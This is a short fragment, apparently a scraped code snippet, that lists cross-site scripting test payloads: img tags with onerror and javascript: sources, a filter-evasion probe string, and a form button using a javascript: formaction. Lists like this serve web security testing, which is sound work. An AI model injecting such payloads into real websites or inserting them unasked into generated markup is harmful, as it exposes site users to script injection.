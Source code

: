 # -b-
1:
<img src=x onerror=alert(1)>
2:
<img src=javascript:alert(1)>
<'';!--"<<XSS>=&{()}
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
